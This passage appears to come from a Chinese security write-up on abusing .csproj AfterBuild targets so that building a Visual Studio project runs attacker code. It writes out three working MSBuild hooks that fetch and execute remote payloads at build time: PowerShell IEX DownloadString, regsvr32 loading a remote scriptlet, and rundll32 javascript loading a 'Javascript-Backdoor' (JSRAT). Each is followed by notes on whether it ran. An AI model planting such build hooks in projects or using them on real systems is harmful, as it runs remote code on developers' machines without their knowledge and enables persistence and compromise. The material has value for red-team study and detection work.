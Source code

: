 上传至github  
使用powershell来下载执行

.csproj文件修改为：

```
<Target Name="AfterBuild">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/test/master/calc.ps1');"/>
  </Target>

```

执行如图：

![Alt text](http://drops.javaweb.org/uploads/images/b14c548dec56701c3fd17cf931edcb011959db94.jpg)

2、在编译过程中调用regsvr32.exe
----------------------

添加代码如下：

```
<Target Name="AfterBuild">
    <Exec Command="regsvr32.exe /u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"/>
  </Target>

```

使用regsvr32会在控制台输出报错提示权限不够，但依然可以成功执行命令，如图

![Alt text](http://drops.javaweb.org/uploads/images/2752891b756e919e8a2fd4ef1c30e898eaa2ba1f.jpg)

3、在编译过程中运行JSRAT
---------------

使用rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

```

`两个""`中间无法再使用`"`，所以要用`&quot;`来替代`"`优化的代码如下：

```
<Target Name="AfterBuild">
    <Exec Command="rundll32.exe javascript:&quot;\..\mshtml,RunHTMLApplication &quot;;document.write();GetObject(&quot;script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test&quot;)"/> 
</Target>

```

成功弹出计算器，但无法成功编译文件，手动结束rundll32进程，编译成功，提示rundll32调用错误
